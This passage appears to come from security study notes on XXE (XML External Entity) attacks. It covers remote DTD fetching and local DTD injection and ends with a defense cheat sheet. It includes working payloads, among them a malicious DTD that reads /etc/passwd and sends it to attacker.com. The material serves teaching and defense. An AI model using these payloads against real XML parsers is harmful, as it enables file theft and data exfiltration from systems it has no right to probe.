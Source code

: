 **Definition**: This exploits DTD parameter entities (used for DTD modularization). If external parameter entities are allowed, attackers can define malicious DTDs hosted on remote servers.

#### 💡  (Remote DTD Fetching):

xml
`<?xml version="1.0"?> <!DOCTYPE root [   <!ENTITY % ext SYSTEM "http://attacker.com/malicious.dtd">   %ext; ]> <root></root>`

**malicious.dtd content:**

xml
`<!ENTITY % data SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY exfiltrate SYSTEM 'http://attacker.com/?data=%data;'>"> %eval;`

- **Remote Impact**:
    
    - Pulls in an external DTD.
        
    - Triggers internal file read and exfiltration.
        
    - Used for **advanced XXE chaining attacks**.


### **Local DTD Injection (Parameter Entity Injection with Local Resources)**

This type uses **parameter entities** to craft payloads referencing local files or abusing internal DTDs for further injection.

#### 💡 Example:

xml
`<?xml version="1.0"?> <!DOCTYPE data [   <!ENTITY % local SYSTEM "file:///usr/share/xml/entities.dtd">   %local; ]> <data>test</data>`

- **What it does**:
    
    - Includes a local DTD file.
        
    - Can be chained to load internal DTDs that might contain further sensitive entities or even trigger execution if mishandled.
        
- In advanced attacks: The local DTD could be maliciously altered, or the attacker uses it in a chain to extract more local data or even trigger logic bugs in the parser.


# XXE Defense

## **XXE Defense Cheat Sheet**

|Technique|Effectiveness|Notes|
|---|---|---|
|Disable DTDs|✅ High|Most effective prevention|
|Disable external entity resolution|✅ High|Stops file/network access|
|Use safe parsers|✅ High|Use `defusedxml`, `javax.xml.XMLConstants`|
|Switch to JSON|✅ High|Eliminates XML attack surface|
|Sandbox parser|✅ Medium|Reduces impact if exploited|
|Logging & monitoring|✅ Medium|Detects exploitation attempts|


